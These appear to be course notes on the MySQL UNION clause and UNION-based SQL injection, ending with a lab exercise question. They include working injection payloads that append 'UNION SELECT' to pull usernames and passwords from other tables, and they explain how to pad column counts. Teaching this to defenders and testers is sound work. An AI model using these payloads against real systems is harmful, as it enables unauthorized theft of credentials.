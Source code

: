 The [Union](https://dev.mysql.com/doc/refman/8.0/en/union.html) clause is used to combine results from multiple `SELECT` statements.

```shell-session
mysql> SELECT * FROM ports;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| ZZ-21    | Shenzhen  |
+----------+-----------+
3 rows in set (0.00 sec)
```

```shell-session
mysql> SELECT * FROM ships;

+----------+-----------+
| Ship     | city      |
+----------+-----------+
| Morrison | New York  |
+----------+-----------+
1 rows in set (0.00 sec)
```

## UNION

```shell
mysql> SELECT * FROM ports UNION SELECT * FROM ships;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| Morrison | New York  |
| ZZ-21    | Shenzhen  |
+----------+-----------+
4 rows in set (0.00 sec)
```

```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```

The above query would return `username` and `password` entries from the `passwords` table, assuming the `products` table has two columns.

## Uneven Columns
When using a **`UNION SELECT`** injection, your goal is to **merge your custom query with the original query**. For it to work properly:

👉 The number of columns **must match** between both queries.
If not, SQL will throw an error like:

`ERROR: The used SELECT statements have a different number of columns`


EXAMPLE

```sql 

ORIGINA: SELECT * FROM products WHERE product_id = '1'


INJECT: ' UNION SELECT username FROM users-- 


QUERY: SELECT * FROM products WHERE product_id = '1' UNION SELECT username FROM users


FAILS: The original query returns 2 columns.
		Your injected query returns only 1 column (`username`).

✅ The Fix: Padding with Junk Values

' UNION SELECT username, 123 FROM users--


```
`username` goes in column 1
`123` (junk value) fills column 2

Q : Connect to the above MySQL server with the 'mysql' tool, and find the number of records returned when doing a 'Union' of all records in the 'employees' table and all records in the 'departments' table.

